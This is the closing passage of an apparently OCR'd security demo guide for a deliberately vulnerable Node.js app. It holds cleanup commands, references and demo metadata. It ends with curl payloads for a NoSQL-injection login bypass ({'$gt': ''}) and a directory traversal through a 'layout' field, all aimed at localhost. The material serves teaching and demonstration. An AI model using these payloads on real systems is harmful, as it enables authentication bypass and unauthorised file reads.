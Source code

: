 **Q: How do you balance security with development velocity?**
A: Automate security in CI/CD pipeline, use pre-commit hooks, developer security training, and risk-based prioritization.

---

## Cleanup Commands

```bash
# Stop application
pkill -f "node app.js"

# Stop MongoDB container
docker stop goof-mongo

# Remove test cookies
rm /tmp/cookies.txt
```

---

## References

- **OWASP Top 10:** https://owasp.org/www-project-top-ten/
- **CWE Database:** https://cwe.mitre.org/
- **Red Hat Security:** https://access.redhat.com/security/
- **CVE Details:** https://www.cvedetails.com/
- **Snyk Vulnerability DB:** https://snyk.io/vuln/

---

**Demo Duration:** 15-20 minutes
**Difficulty Level:** Intermediate to Advanced
**Target Audience:** Security Engineers, DevSecOps Teams, Technical Leadership

**Prepared by:** Red Hat Cybersecurity Engineering Candidate
**Date:** October 2025


Quick Demo Commands

  # NoSQL Injection
  curl -X POST
  http://localhost:3001/login -H
  'Content-Type: application/json' \
    -d '{"username": "admin@snyk.io", 
  "password": {"$gt": ""}}'

  # Directory Traversal  
  curl -X POST
  http://localhost:3001/login -c
  /tmp/cookies.txt -H 'Content-Type: 
  application/json' \
    -d '{"username": "admin@snyk.io", 
  "password": {"$gt": ""}}'
  curl -X POST http://localhost:3001/a
  ccount_details -b /tmp/cookies.txt
  -H 'Content-Type: application/json'
  \
    -d '{"email": "admin@snyk.io", 
  "firstname": "admin", "lastname": 
  "admin", "country": "IL", "phone": 
  "+972551234123", "layout": 
  "./../package.json"}'